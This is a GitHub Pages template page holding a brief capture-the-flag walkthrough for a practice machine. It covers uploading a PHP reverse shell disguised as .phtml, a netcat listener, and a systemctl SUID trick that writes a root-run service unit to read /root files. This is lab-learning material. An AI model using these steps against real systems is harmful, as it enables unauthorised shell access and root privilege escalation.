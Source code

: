 ## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/vlngod/vlnblog/edit/gh-pages/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Vlnuniversity THM

```TargetIP:3333/internal/uploads/    (use directory  brute force to get this dir)```

**Now upload a php reverse shell with .phtml extension**
nc -lnvp 1234

now go to user bill and get the user flag:

cd /home/bill/ ; ls   (now use cat and get he flag here)

### systemclt SUID exploit
```TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id;ls /root;cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF


Post this run following to enable the services:
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

Now go to /tmp directory and cat output:
cat /tmp/output (Red colored highlighted commands out will display)

boom we got the root flag here'''


[Link](url) and ![Image](src)
```

For more details see [Basic writing and formatting syntax](https://docs.github.com/en/github/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/vlngod/vlnblog/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.
